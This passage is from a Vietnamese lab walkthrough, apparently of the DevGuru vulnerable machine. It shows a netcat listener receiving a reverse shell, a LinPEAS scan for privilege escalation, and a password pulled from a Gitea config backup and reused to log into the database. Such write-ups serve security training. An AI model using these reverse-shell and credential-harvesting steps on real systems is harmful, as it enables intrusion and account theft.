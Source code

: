 Save lại và load lại trang `/poc`. Kiểm tra kết nối của listener:

```
$ nc -lnvp 9005
listening on [any] 9005 ...
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.10] 55294
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Privilege Escalation (other user)

[https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS){:target="\_blank"}

LinPEAS là 1 script đắc lực dùng để scan toàn bộ hệ thống, tìm kiếm các đường dẫn khả thi để leo thang đặc quyển trên Linux/Unix, MacOS.

Chờ 1-2p scan, LinPEAS nó trả cho 1 nùi kết quả. Ngồi phân tích một lúc thì phát hiện 1 file hay ho

```shell
╔══════════╣ Backup files (limited 100)
-rw-r--r-- 1 frank frank 56688 Nov 19  2020 /var/backups/app.ini.bak
...
```

Khả năng cao đây là file backup của file config gitea. Nếu đúng là nó thì ta có thể khai thác thêm thông tin đăng nhập của gitea DB.

```shell
www-data@devguru:/var/backups$ grep -A 10 -i 'database' app.ini.bak
[database]
; Database to use. Either "mysql", "postgres", "mssql" or "sqlite3".
DB_TYPE             = mysql
HOST                = 127.0.0.1:3306
NAME                = gitea
USER                = gitea
; Use PASSWD = `your password` for quoting if you use special characters in the password.
PASSWD              = UfFPTF8C8jjxVF2m
; For Postgres, schema to use if different from "public". The schema must exist beforehand,
; the user must have creation privileges on it, and the user search path must be set
; to the look into the schema first. e.g.:ALTER USER user SET SEARCH_PATH = schema_name,"$user",public;
...
```

Do là gitea cũng chạy db trên cổng 3306, trùng với **october cms**, nên ta quay lại trang adminer và dùng thông tin đăng nhập ở trên.

Sau khi login thành công, loanh quanh thì thấy bảng user, vào thăm hỏi em nó tí.

![user](/posts/devguru/user-table.PNG)

Em nó có 1 record, vẫn là user frank nhưng lần này ở ngôi nhà khác, `gitea`.

![frank gitea](/posts/devguru/frank-gitea.PNG)
